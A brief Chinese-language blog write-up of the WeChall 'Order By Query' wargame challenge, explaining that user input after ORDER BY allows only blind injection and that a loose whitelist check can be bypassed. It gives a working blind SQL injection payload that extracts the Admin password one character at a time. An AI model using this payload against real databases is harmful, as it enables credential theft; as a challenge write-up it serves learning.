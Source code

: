 ```yaml
---
title: Order By Query
author: rk700
layout: post
categories:
  - writeup
tags:
  - mysql
  - wechall
---
```

[http://www.wechall.net/challenge/order\_by\_query/index.php][1]  
用户输入在`order by`后面出现，只能用盲注  
另外由于会检查参数`by`是否在白名单里，但用的是`==`，所以只要第一个字符是有效的数字即可

用二分法读内容  
<pre>
by=1,(case when (ascii(substring((select password from users where username=0x41646d696e),1,1))=51) then 3 else 1*(select apples from users)end)
</pre>

 [1]: http://www.wechall.net/challenge/order_by_query/index.php